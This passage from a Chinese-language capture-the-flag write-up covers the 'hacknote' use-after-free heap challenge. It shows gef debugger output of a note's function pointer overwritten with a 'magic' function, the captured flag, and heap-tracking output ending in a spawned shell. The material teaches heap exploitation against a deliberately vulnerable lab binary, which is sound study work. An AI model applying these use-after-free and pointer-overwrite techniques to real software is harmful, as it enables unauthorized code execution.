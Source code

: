 覆蓋後，具體的值如下

```asm
gef➤  x/2xw 0x804b008
0x804b008:	0x08048986	0x0804b00a
gef➤  x/i 0x08048986
   0x8048986 <magic>:	push   ebp
```

可以看出，確實已經被覆蓋爲我們所想要的magic函數了。

最後執行的效果如下

```shell
[+] Starting local process './hacknote': pid 35030
[*] Switching to interactive mode
flag{use_after_free}----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
```

同時，我們還可以藉助gef的heap-analysis-helper 來看一下整體的堆的申請與釋放的情況，如下

```asm
gef➤  heap-analysis-helper 
[*] This feature is under development, expect bugs and unstability...
[+] Tracking malloc()
[+] Tracking free()
[+] Tracking realloc()
[+] Disabling hardware watchpoints (this may increase the latency)
[+] Dynamic breakpoints correctly setup, GEF will break execution if a possible vulnerabity is found.
[*] Note: The heap analysis slows down noticeably the execution. 
gef➤  c
Continuing.
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - malloc(32)=0x804b018
[+] Heap-Analysis - malloc(8)=0x804b040
[+] Heap-Analysis - malloc(32)=0x804b050
[+] Heap-Analysis - free(0x804b018)
[+] Heap-Analysis - watching 0x804b018
[+] Heap-Analysis - free(0x804b008)
[+] Heap-Analysis - watching 0x804b008
[+] Heap-Analysis - free(0x804b050)
[+] Heap-Analysis - watching 0x804b050
[+] Heap-Analysis - free(0x804b040)
[+] Heap-Analysis - watching 0x804b040
[+] Heap-Analysis - malloc(8)=0x804b040
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - Cleaning up
[+] Heap-Analysis - Re-enabling hardware watchpoints
[New process 36248]
process 36248 is executing new program: /bin/dash
[New process 36249]
process 36249 is executing new program: /bin/cat
[Inferior 3 (process 36249) exited normally]
```
